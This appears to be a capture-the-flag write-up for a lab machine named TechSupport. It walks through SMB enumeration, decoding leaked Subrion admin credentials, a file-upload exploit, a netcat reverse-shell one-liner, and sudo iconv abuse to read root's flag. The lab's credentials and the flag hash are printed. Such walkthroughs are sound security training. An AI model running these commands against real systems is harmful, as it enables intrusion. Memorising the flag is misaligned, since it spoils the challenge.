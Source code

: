 ```yaml
---
aliases: []
sticker: emoji//1f469-200d-1f4bb
---
```

# ENUMERATION
---



## OPEN PORTS
---


| PORT | SERVICE |
| :--- | :------ |
| 22   | SSH     |
| 80   | HTTP    |
| 139  | SMB     |
| 445  | SMB     |



# RECONNAISSANCE
---

We got `smb` enabled, let's try anonymous login:

![](images/Pasted%20image%2020250411151007.png)

There we go, we got an interesting share, let's check the contents inside of it:

![](images/Pasted%20image%2020250411151101.png)

We got something called `enter.txt`, let's read the contents:

```
cat enter.txt

GOALS
=====
1)Make fake popup and host it online on Digital Ocean server
2)Fix subrion site, /subrion doesn't work, edit from panel
3)Edit wordpress website

IMP
===
Subrion creds
|->admin:7sKvntXdPEJaxazce9PXi24zaFrLiKWCk [cooked with magical formula]
Wordpress creds
|->
```

We got credentials for the WordPress site, let's check the website:


![](images/Pasted%20image%2020250411151659.png)

We can fuzz and we find this:

```
ffuf -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt:FUZZ -u "http://10.10.224.191/FUZZ" -ic -c -t 200

        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://10.10.224.191/FUZZ
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 200
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

wordpress               [Status: 301, Size: 318, Words: 20, Lines: 10, Duration: 165ms]
test                    [Status: 301, Size: 313, Words: 20, Lines: 10, Duration: 161ms]
```


If we check the `test` directory, we can see this:

![](images/Pasted%20image%2020250411151834.png)


In the `wordpress` directory, we can go to `wp-login.php` and test the credentials we got earlier:

```
admin:7sKvntXdPEJaxazce9PXi24zaFrLiKWCk
```


![](images/Pasted%20image%2020250411152301.png)

They don't work, seems like they are not the credentials for WordPress, other stuff we are missing is the `/subrion` directory, if we try accessing it we get this:


![](images/Pasted%20image%2020250411152549.png)

There's a redirection, if we follow it:

![](images/Pasted%20image%2020250411152610.png)

It changes the host, seems weird, what if we try changing it back to the real host:

![](images/Pasted%20image%2020250411152727.png)

No response still, seems like we are trying to access an invalid resource, maybe `/subrion/subrion` does not exist, we can try reading `robots.txt` and check if it works, let's change it in the base request:

![](images/Pasted%20image%2020250411153009.png)

There we go, it does exist, we got some stuff:

```
User-agent: *
Disallow: /backup/
Disallow: /cron/?
Disallow: /front/
Disallow: /install/
Disallow: /panel/
Disallow: /tmp/
Disallow: /updates/
```


If we remember the message from `smb`, we can go inside of `panel` and edit the `/subrion` directory, which could mean we can use these credentials inside of the panel:

![](images/Pasted%20image%2020250411153208.png)


```
admin:7sKvntXdPEJaxazce9PXi24zaFrLiKWCk
```

But wait, there is something that needs to be done with these still, let's proceed to exploitation.



# EXPLOITATION
---

```
Subrion creds

admin:7sKvntXdPEJaxazce9PXi24zaFrLiKWCk [cooked with magical formula]

```


Let's use CyberChef with the `magic` operation, we can see the following:



![](images/Pasted%20image%2020250411153349.png)

There we go, we got the real password:

```
admin:Scam2021
```


![](images/Pasted%20image%2020250411153512.png)

There we go, we got inside of the panel, let's check for an exploit regarding this version of `subrion`, we are dealing with `subrion 4.2.1`:

![](images/Pasted%20image%2020250411153614.png)

We got `Arbitrary File Upload`, the module is on `metasploit` so we can use it to ensure it works:

![](images/Pasted%20image%2020250411154612.png)

There we go, we got the shell, we can migrate to `netcat` 

```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc IP 9001 >/tmp/f
```


![](images/Pasted%20image%2020250411154740.png)

There we go, we got our netcat shell, let's proceed with privilege escalation.



# PRIVILEGE ESCALATION
---

Let's stabilize our shell:

```
python3 -c 'import pty;pty.spawn("/bin/bash")'
/usr/bin/script -qc /bin/bash /dev/null
CTRL + Z
stty raw -echo; fg
reset xterm
export TERM=xterm
export BASH=bash
```

![](images/Pasted%20image%2020250411154905.png)

If we use linpeas, we can see this:

![](images/Pasted%20image%2020250411155553.png)

![](images/Pasted%20image%2020250411155606.png)


```
scamsite:ImAScammerLOL!123!
```

Let's use this credentials in ssh:

![](images/Pasted%20image%2020250411155627.png)

Let's check our sudo privileges:

```
scamsite@TechSupport:~$ sudo -l
Matching Defaults entries for scamsite on TechSupport:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User scamsite may run the following commands on TechSupport:
    (ALL) NOPASSWD: /usr/bin/iconv
```

We can run `iconv`, let's check it on GTFOBins:

![](images/Pasted%20image%2020250411155740.png)

Nice, let's read `root.txt`:


```
sudo /usr/bin/iconv -f 8859_1 -t 8859_1 /root/root.txt
```

![](images/Pasted%20image%2020250411160756.png)
```
scamsite@TechSupport:~$ sudo /usr/bin/iconv -f 8859_1 -t 8859_1 /root/root.txt
851b8233a8c09400ec30651bd1529bf1ed02790b
```

![](images/Pasted%20image%2020250411160820.png)

